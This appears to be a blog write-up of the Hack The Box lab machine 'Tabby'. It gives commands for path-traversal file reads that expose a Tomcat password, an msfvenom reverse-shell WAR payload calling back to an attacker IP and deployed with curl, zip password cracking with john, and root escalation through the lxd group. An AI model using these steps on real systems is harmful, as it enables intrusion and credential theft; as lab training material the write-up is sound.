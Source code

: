 ```yaml
---
title: "Tabby - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Tabby
![](https://kar0nx.github.io/assets/images/writeup/9b4c7b192eb00be8460364338e48f21f.png)
## Reconnaissance

IP: 10.10.10.194
## NMAP

```
nmap -T4 -p- -A 10.10.10.194
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-08 07:39 UTC
Nmap scan report for 10.10.10.194
Host is up (0.031s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   29.42 ms 10.10.14.1
2   30.03 ms 10.10.10.194

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.81 seconds

```

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908094031.png)

after clicking no new we are redirected to 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908094139.png)

Url looks promising for LFI, so I tried it and found /etc/passwd

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908094356.png)

## Port 8080

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908094449.png)

tomcat 9 
/host-manager and /manager have login panel

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908094628.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908095044.png)

searching for tomcat-users.xml
https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html
 `$CATALINA_BASE/conf/tomcat-users.xml`
 also found this blog
 https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00

so navigated to 

```
../../../../usr/share/tomcat9/etc/tomcat-users.xml
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908095635.png)

and found user password
username="tomcat" password="$3cureP4s5w0rd123!"

and I was able to login to tomcat host manager

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908095733.png)

access denied to manager

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908100500.png)

our user is in admin-gui,manager-script group so we can upload file even without gui access to manager

Let's try. First create payload 

```
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.8 lport=443 -f war -o shell.war
```

```
curl -v -u tomcat --upload-file shell.war "http://10.10.10.194:8080/manager/text/deploy?path=/foo&update=true"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908101234.png)

start listener and navigate to /foo

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908101334.png)

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

in /var/www/html/files I found zip file can't extract on machine so download it on my kali and crack password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908103209.png)

```
zip2john 16162020_backup.zip > hash.zip
john hash.zip --wordlist=/usr/share/wordlists/rockyou.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908103104.png)

checked all files in zip file but nothing interesting here

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908103721.png)

so I tried password reuse for ash user admin@it
and it works

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908103918.png)

## Privilege Escalation

Start with running linpeas

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908104144.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908104306.png)

PwnKit works well but I want to test lxd group priv esc

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908104611.png)

so following this guide 
https://amanisher.medium.com/lxd-privilege-escalation-in-linux-lxd-group-ec7cafe7af63

clone 
https://github.com/saghul/lxd-alpine-builder
then build-alpine
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908105809.png)

then got to /dev/shm
wget and 
```
/snap/bin/lxd init
```
press enter each pop up

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908110249.png)

```
/snap/bin/lxc image import alpine-v3.22-x86_64-20250908_0857.tar.gz --alias myimage
/snap/bin/lxc init myimage VM -c security.privileged=true
/snap/bin/lxc config device add VM realRoot disk source=/ path=r
/snap/bin/lxc start VM
/snap/bin/lxc exec VM -- /bin/sh
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908110611.png)
